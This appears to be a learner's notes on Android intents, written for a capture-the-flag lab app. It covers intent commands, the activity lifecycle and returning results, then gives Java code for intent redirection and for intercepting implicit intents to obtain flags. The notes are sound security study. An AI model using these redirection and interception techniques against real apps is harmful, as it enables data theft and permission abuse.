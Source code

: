 # Intents

- [Interaction with Intents](#interaction-with-intents)
- [Activity Life Cycle](#activity-life-cycle)
- [Returning Activity Results](#returning-activity-results)
- [Attacks](#attacks)
    - [Intent Redirection](#intent-redirection)
    - [Implicit Intents](#implicit-intents)
    - [Delegation via Pending Intents](#delegation-via-pending-intents)


## Interaction with Intents
- **Commands to interact with intents**
    - `intent.setClassName(<Package_Name>,<Class_Name>);`
    - `<Intent_Name>.setAction(<Action_Name>)`
    - `startActivity(<Intent_Name>)`
    - `intent.setData(Uri.parse("https://google.com"));`
    


- **Nested Intents**
```java
Intent intent3 = new Intent();
intent3.putExtra("reason","back");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

## Activity Life Cycle

- Scenarios When `onNewIntent()` Is Triggered
    1. Activity Launched with `FLAG_ACTIVITY_SINGLE_TOP`:
        - If the activity is already running at the top of the back stack, and a new intent is sent to it with the `Intent.FLAG_ACTIVITY_SINGLE_TOP` flag, the system calls `onNewIntent()` instead of creating a new instance of the activity.
    2. Activity Configured with `launchMode="singleTop"`:

        - If the activity is declared in the `AndroidManifest.xml` file with the launchMode attribute set to `singleTop`, the system calls `onNewIntent()` when the activity is already at the top of the stack and receives a new intent.
        ```xml
        <activity
            android:name=".YourActivity"
            android:launchMode="singleTop" />
        ```

    3. Activity Declared as `singleTask` or `singleInstance`:

        - For activities declared with `launchMode="singleTask"` or `launchMode="singleInstance"`, `onNewIntent()` is called when the activity is already running in a task and a new intent is directed to it.
    4. Task Reuse (`Intent.FLAG_ACTIVITY_REORDER_TO_FRONT`):

        - If you launch an activity that is already in the back stack of the current task using the `FLAG_ACTIVITY_REORDER_TO_FRONT` flag, the system brings it to the front and calls `onNewIntent()`.


## Returning Activity Results
1. `getCallingActivity()`
    - `getCallingActivity()` is used to retrieve the component name of the activity that started the current activity using `startActivityForResult()`.
    ```java
        ComponentName callingActivity = getCallingActivity();
        if (callingActivity != null) {
            Log.d("Caller", "Calling activity: " + callingActivity.getClassName());
        }
    ```

2. `startActivityForResult()`

    - `startActivityForResult()` is used to start another activity with the expectation of getting a result back. The result is received in the `onActivityResult()` method.
    ```java
    Intent intent = new Intent(this, SecondActivity.class);
    startActivityForResult(intent, 1); // 1 is the requestCode

    ```

3. `onActivityResult()`
    - `onActivityResult()` is a callback method in the originating activity that receives the result sent back by the target activity.
    ```java
    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        if (requestCode == 1) { // Matching the requestCode
            if (resultCode == RESULT_OK) {
                String result = data.getStringExtra("resultKey");
                Log.d("Result", "Result from SecondActivity: " + result);
            }
        }
    }
    ```
    - Results are returned using `setResult()` in the target activity.


## Attacks
### Intent Redirection
- If we can control the intent input of the startActivity() function, it may lead to an intent redirection vulnerability.
```java
// Redirect to flag6 Activity
Intent intent3 = new Intent();
intent3.putExtra("reason","next");
intent3.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
intent3.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag6Activity");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

> [!NOTE]
> `FLAG_GRANT_READ_URI_PERMISSION`: If set, the recipient of this Intent will be granted permission to perform read operations on the URI in the Intent's data and any URIs specified in its ClipData.

### Implicit Intents

- As an attacker we rarely send implicit intents, because usually we want to explicitly target a specific vulnerable app.

- But receiving implicit intents could result in typical issues. If an app uses implicit intents insecurely, for example when it transmits sensitive data, then registering a handler for this intent could exploit this.

- Example:
```java
Intent intent = getIntent();
Utils.showDialog(this,intent);
if("io.hextree.attacksurface.ATTACK_ME".equals(intent.getAction())){
    String flag = intent.getStringExtra("flag");
    Toast.makeText(this,flag,Toast.LENGTH_LONG).show();
}else{
    Log.d("Flag10", "Not Received");
}
```
```xml
<activity
    android:name=".Second_Activity"
    android:exported="true">
<intent-filter>
    <action android:name="io.hextree.attacksurface.ATTACK_ME"/>
    <category android:name="android.intent.category.DEFAULT" />
</intent-filter>

</activity>
```


### Delegation via Pending Intents
